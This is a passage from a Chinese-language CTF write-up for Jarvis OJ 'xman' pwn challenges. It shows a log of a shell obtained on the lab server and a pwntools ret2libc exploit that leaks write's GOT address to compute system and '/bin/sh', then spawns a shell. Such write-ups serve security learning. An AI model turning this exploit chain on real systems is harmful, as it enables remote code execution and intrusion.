 ``` bash
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to pwn2.jarvisoj.com on port 9878: Done
[*] Switching to interactive mode
Input:
$ cat flag
CTF{1759d0cbd854c54ffa886cd9df3a3d52}
$  
```

### xman-level2 x64
与level0类似，使用ROP直接过


### xman-level3
给了libc，但是没有给binsh和system，通过泄漏write函数的got表，得到libc的偏移，进而计算出system和'/bin/sh'的地址，核心代码如下：
``` python 
def leak_addr():
    '''
    leak system addr and binsh addr
    '''
    global io
    global elf
    global libc

    payload  = 'A' * (0x88+0x4) 
    payload += p32(elf.plt['write']) # plt of write
    payload += p32(0x08048484)       # main function -> the ret addr of write
    payload += p32(1)                # fd
    payload += p32(elf.got['write']) # 
    payload += p32(4)                # len
    
    io.recvuntil('Input:\n')
    io.sendline(payload)
    write_addr = u32(io.recv(4))
    
    libc_offset  = write_addr  - libc.symbols['write']
    system_addr  = libc_offset + libc.symbols['system'] 
    binsh_addr   = libc_offset + libc.search('/bin/sh').next()
    
    return (system_addr, binsh_addr)
    

def exploit():
    global io
    system_addr, binsh_addr = leak_addr()
    
    print(hex(system_addr))
    print(hex(binsh_addr))
    payload   = 'A' * (0x88 + 0x4)
    payload  += p32(system_addr) # ret addr
    payload  += 'A' * 0x4        #  
    payload  += p32(binsh_addr)  # binsh
    
    io.sendline(payload)
    
    # get shell
    io.interactive()

```
